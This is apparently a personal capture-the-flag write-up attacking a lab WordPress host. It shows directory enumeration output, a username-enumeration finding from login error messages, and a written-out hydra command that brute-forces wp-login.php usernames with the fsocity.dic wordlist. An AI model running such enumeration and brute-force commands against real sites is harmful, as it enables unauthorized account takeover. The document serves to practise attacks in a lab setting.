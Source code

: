 /blog                 (Status: 301) [Size: 232] [--> http://10.10.8.165/blog/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.8.165/feed/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://10.10.8.165/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.8.165/0/]
/video                (Status: 301) [Size: 233] [--> http://10.10.8.165/video/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.8.165/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.8.165/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.8.165/feed/atom/]
/wp-content           (Status: 301) [Size: 238] [--> http://10.10.8.165/wp-content/]
/admin                (Status: 301) [Size: 233] [--> http://10.10.8.165/admin/]
/audio                (Status: 301) [Size: 233] [--> http://10.10.8.165/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2657]
/css                  (Status: 301) [Size: 231] [--> http://10.10.8.165/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.8.165/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 239] [--> http://10.10.8.165/wp-includes/]
/js                   (Status: 301) [Size: 230] [--> http://10.10.8.165/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.8.165/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.8.165/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.8.165/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.8.165/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.8.165/]
/wp-admin             (Status: 301) [Size: 236] [--> http://10.10.8.165/wp-admin/]
/phpmyadmin           (Status: 403) [Size: 94]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.8.165/0000/]

unfortunately, wp scan isnt producing an output rn, this means the WP content may be hidden or unexposed or their REST API has JWT security idk I do have a /wp-admin to hydra though when i am finished with enumeration

so the /wp-admin site mentions if the login failure was because of the user or password. Which is good because now I can enumerate usernames. It is also bad because admin and Administrator are not valid credentials.... guess we need to brute force the username. I could use sn1per by burpsuite for this but I need more practice on hydra so I decided to work on writing a hydra command luckily for me it looks like the .dic file i got was a list of usernames

	<input type="text" name="log" id="user_login" aria-describedby="login_error" class="input" value="" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" 

my repeater tells me "pwd" is the password parameter and "log" is the username parameter and the page posts "Invalid username" on logon error

 id="login_error">	<strong>ERROR</strong>: Invalid username. < href="http://10.10.8.165/wp-login.php?action=lostpassword">Lost your password?</

┌──(kali㉿kali)-[~]
└─$ hydra -L ~/Downloads/fsocity.dic -p lol 10.10.8.165 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 50
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
